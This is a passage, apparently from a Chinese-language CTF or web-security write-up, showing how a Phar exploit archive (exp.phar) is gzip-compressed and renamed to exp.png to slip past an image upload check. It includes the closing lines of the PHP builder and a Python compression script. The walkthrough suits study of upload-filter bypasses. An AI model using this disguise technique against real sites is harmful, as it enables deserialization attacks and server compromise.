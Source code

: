 ```php
$phar->stopBuffering();

echo "phar created!";
?>
```

然后用 gzip 压缩, 并重命名为 png:

```python
# f_gzip.py

import gzip

with open('exp.phar', 'rb') as file:
    f = file.read()

newf = gzip.compress(f)  # 对Phar文件进行gzip压缩
with open('exp.png', 'wb') as file:  # 更改文件后缀
    file.write(newf)

```

再上传:

![61-2.png](61-2.png)
